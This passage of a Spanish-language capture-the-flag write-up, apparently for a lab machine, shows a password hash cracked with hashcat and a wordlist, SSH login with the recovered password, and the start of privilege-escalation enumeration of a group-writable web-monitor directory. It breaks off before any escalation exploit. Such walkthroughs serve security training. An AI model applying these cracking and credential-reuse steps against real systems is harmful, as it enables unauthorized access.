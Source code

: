**Credenciales hasheadas:**

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Con herramientas como _Hashcat_ podemos tratar de crackear esta contraseña. Primero guardamos las credenciales hasheadas en un archivo llamado, por ejemplo, `credential`:

```bash
hashcat credential /usr/share/wordlists/rockyou.txt --user
```

**Resultado:**

```bash
albert:manchesterunited
```

Con estas credenciales podemos tratar de loguearnos en el panel administrador de antes y también vía SSH.

```bash
ssh albert@10.10.11.44
```

Introducimos la contraseña `manchesterunited` y ganamos acceso a este usuario. Desde aquí podemos visualizar la primera flag del laboratorio.

---

## Escalada de privilegios

**Acción:** listamos grupos a los que pertenecemos y buscamos archivos pertenecientes a dicho grupo

```bash
id
find / -group management 2>/dev/null
```

**Resultado:**

```bash
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)

/opt/website-monitor/config
/opt/website-monitor/config/configuration.php
```

**Acción:** accedemos a la ruta encontrada y vemos qué permisos tiene

```bash
cd /opt/website-monitor/
ls -la
```

**Resultado:**

```bash
drwxrwxr-x 8 root root        4096 Oct 12  2024 .git
-rwxrwxr-x 1 root root        1068 Oct 12  2024 LICENSE
-rwxrwxr-x 1 root root       40849 Oct 12  2024 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12  2024 README.md
drwxrwxr-x 2 root management  4096 Oct 12  2024 config
drwxrwxr-x 2 root root        4096 Oct 12  2024 incidents
-rwxrwxr-x 1 root root        5323 Oct 12  2024 index.php
-rwxrwxr-x 1 root root        1452 Oct 12  2024 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12  2024 monitors
-rwxrwxr-x 1 root root         104 Oct 12  2024 monitors.json
-rwxrwxr-x 1 root root        1918 Oct 12  2024 style.css
drwxrwxr-x 2 root root        4096 Oct 12  2024 updates
```
